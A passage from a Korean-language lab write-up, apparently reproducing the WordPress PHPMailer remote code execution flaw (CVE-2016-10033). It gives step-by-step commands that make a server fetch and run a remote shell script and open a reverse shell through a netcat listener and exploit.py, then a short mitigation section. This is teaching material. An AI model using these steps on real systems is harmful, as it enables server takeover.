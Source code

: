 즉, 첫 번째 요청은 **쉘 스크립트를 다운로드 받아서 /tmp 경로에 rce라는 이름의 파일로 저장**시키는 역할을 하고, 두 번째 요청은 **해당 쉘 스크립트 파일을 실행**시키는 역할을 한다.<br>
추가로, generate_command 함수를 살펴보면, 1번 과정에서 언급한 `/`와 공백(Space)문자 말고도, `:`도 치환하는 것을 볼 수 있다. 이를 통해, 포트번호가 존재하는 URL형태도 command의 제약조건을 우회해서 사용할 수 있도록 하였다.<br>
<br>
마지막으로, 드디어 Wordpress 서버의 리버스 쉘을 획득해볼 것이다.<br>
**수행 순서는 다음과 같다.** <br>
1. 터미널 창 **3개**를 실행한다.(윈도우 터미널의 경우, 기본적으로 nc 명령어가 존재하지 않기 때문에, WSL을 통해서 리눅스 터미널을 실행하는 것을 권장함.)<br>
2. **1번 터미널**은 쉘 스크립트를 전송해줄 **페이로드 서버**를 실행하는 용도로 사용할 것이다. `~~/wordpress/pwnscriptum/sample-sever`로 이동해서, `python3 sample-server.py`를 실행하자.<br>
3. **2번 터미널**은 공격자가 리버스 쉘을 획득하기 위해 **1337번 포트로 Listening**하고 있는 용도로 사용할 것이다. `nc -lvp 1337`을 실행하자.(No route to host 에러가 나온다면, 방화벽에서 1337번 포트를 허용해주자.)<br>
4. **3번 터미널**은 **PoC 코드를 실행**시켜 Wordpress 서버에 원격 코드 실행을 일으키는 용도로 사용할 것이다. `~~/wordpress/pwnscriptum`으로 이동해서, `python3 exploit.py http://your_ip:8080 your_ip:4000/shell.sh`를 실행하자.<br>
5. 정상적으로 동작했다면, 몇 초 후에 2번 터미널에서 Wordpress 서버와 연결되었다는 메시지가 나올 것이다. 그 이후로는 **2번 터미널로 Wordpress 서버의 쉘을 사용할 수 있다.** <br>
![](2-4.PNG)
<br/>

## 정리

-   이 취약점은 **Wordpress 서버에 원격으로 코드를 실행시킬 수 있는 취약점**이며, 이를 활용하여 Wordpress 서버의 쉘을 획득하는 등 **심각한 보안 위협으로 이어질 수 있다**.
-   해당 취약점에 대응하기 위해서는, Wordpress를 6.4 버전 이상의 최신 버전으로 업데이트하고, HttpProtocolOptions를 Strict로 설정하여 HTTP 요청 메시지에 더 엄격한 규칙을 적용하여야 한다.
<br/>

## 참고 자료
https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html <br>
https://m.blog.naver.com/skinfosec2000/221040387561 <br>
https://flikk.blog/2019/10/27/hack-the-box-bashed <br>
